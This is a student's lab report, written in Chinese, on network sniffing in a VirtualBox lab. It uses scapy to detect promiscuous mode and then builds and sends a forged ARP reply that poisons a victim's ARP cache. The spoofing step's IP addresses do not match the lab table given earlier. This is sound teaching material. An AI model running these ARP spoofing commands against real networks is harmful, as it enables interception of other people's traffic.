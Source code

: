 # 第四次实验监听实验

## 实验环境

- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali Rolling
- 网关（Gateway）：Debian Buster
- 靶机（Victim）：xp-sp3 / Kali 

## 第一个实验

### 实验准备

1. Attacker添加intnet2，保证主机、网关、靶机在同一局域网内

2. 打开kali，修改kali的配置文件，修改之后重启网卡，重新输入ip a，就可以获得kali的ip地址

   ![image-20230105160527668](img/kaliip.png)

3. 同理获取其余主机ip

   |           |       ip       |           mac            |
   | :-------: | :------------: | :----------------------: |
   | Attacker  | 172.16.222.129 |  08:00:27:00:b0:b9 eth1  |
   | Victim-XP | 172.16.222.144 |    08:00:27:22:9c:67     |
   |  Gateway  |  172.16.222.1  | 08:00:27:25:f9:45 enp0s9 |

### 没有开启混杂模式

在靶机上检测混杂模式

```shell
ip link show enp0s3
```

![](img/检查混杂模式.png)

在攻击者主机上开启scapy

```shell
sudo scapy
pkt = promiscping("172.16.222.144")
```

检测结果

![](img/scapy.png)

查看arp缓存表，没有在eth3这块网卡有新的IP与mac对应

![](img/arp缓存.png)

### 开启混杂模式

1. 开启靶机网卡的混杂模式

   ```shell
   sudo ip link set enp0s3 promisc on
   ip link show enp0s3
   ```

   成功开启

   ![](img/开启混杂模式.png)

2. Attacker继续执行上次的scapy命令

   ![](img/开启混杂模式之后.png)

3. 关闭混杂模式

   ![](img/关闭混杂模式.png)

## 第二个实验

获取当前局域网的网关 MAC 地址 构造一个 ARP 请求

```shell
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")
arpbroadcast.show() ##查看构造好的 ARP 请求报文详情
```

发送这个 ARP 广播请求

```shell
recved = srp(arpbroadcast, timeout=2)
gw_mac = recved[0][0][1].hwsrc
```

伪造网关的 ARP 响应包 准备发送给受害者主机192.168.0.102 ARP 

响应的目的 MAC 地址设置为攻击者主机的 MAC 地址 

```shell
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```

发送上述伪造的 ARP 响应数据包到受害者主机

```shell
sendp(arpspoofed)
```

## 反思总结

自我感觉本次实验完成度不高，依据老师的步骤照猫画虎完成。遇到的问题有在基本网络拓扑与网卡配置方面依旧出现了不少的问题。而且是新的拓扑图，需要去更改attacker的相关网络配置。以后需要多多练习，仔细观察。初步认识了scapy，了解了一些基本的语法与操作。

### 参考资料

[网络通信命令](https://blog.csdn.net/qq_41105501/article/details/117896789)

[Scapy](https://www.osgeo.cn/scapy/introduction.html)

https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html